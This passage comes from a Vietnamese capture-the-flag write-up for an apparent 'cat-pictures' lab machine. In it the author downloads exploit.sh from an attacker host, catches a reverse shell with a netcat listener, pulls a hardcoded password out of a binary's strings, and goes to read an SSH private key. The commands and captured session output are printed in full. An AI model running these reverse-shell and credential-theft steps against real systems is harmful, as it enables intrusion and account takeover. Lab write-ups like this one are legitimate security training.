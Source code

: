 Tải file RCE lên máy

```python
wget http://10.6.0.191:8000/exploit.sh
ERROR: could not open HSTS store. HSTS will be disabled.
http://10.6.0.191:8000/exploit.sh
Connecting to 10.6.0.191:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 41 [text/x-sh]
Saving to: 'exploit.sh'

     0K                                                       100% 5.61M=0s
```

Bây giờ thì tạo listener vơi port 9001

`nc -lnvp 9001`

Trên machine thực hiện chạy file sh vừa tải lên 

`bash exploit.sh`

```python
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.6.0.191] from (UNKNOWN) [10.10.107.28] 47420
bash: cannot set terminal process group (1839): Inappropriate ioctl for device
bash: no job control in this shell
I have no name!@cat-pictures:/#
```

## SSH

Tôi tìm thấy 1 file *runme* trong thư mục user */home/catlover*. Thử `cat` nó và tôi nhận ra đấy là 1 file binary. Nhưng nhìn kỹ thì có 1 dòng có thể đọc được.

```python
I have no name!@cat-pictures:/home/catlover# cat runme
cat runme
UU   �=x - = 888 XXXDDS�td888 P�td� � � ddQ�tdR�t=��/lib64/ld-linux-x86-64.so.2GNU�GNU��O�y��������?8��GNU▒�▒▒�e�ms��
                                             C���/��*F�m]�S�; �P▒ , 
......

rebeccaPlease enter yout password: Welcome, catlover! SSH key transfer queued! touch /tmp/gibmethesshkeyAccess Deniedd

......
```

Điều này có nghĩa là khi nhập đúng password, tôi sẽ nhận được ssh key

Có 1 cái tên *rebecca* ở phía trước đoạn nhập input. Tôi sẽ thử chạy file này và nhập rebecca

```python
I have no name!@cat-pictures:/home/catlover# ./runme
./runme
Please enter yout password: rebecca
Welcome, catlover! SSH key transfer queued! 
I have no name!@cat-pictures:/home/catlover# ls -la
ls -la
total 32
drwxr-xr-x 2 0 0  4096 Nov 18 07:24 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rw-r--r-- 1 0 0  1675 Nov 18 07:24 id_rsa
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
I have no name!@cat-pictures:/home/catlover# 
I have no name!@cat-pictures:/home/catlover# cat id_rsa
```
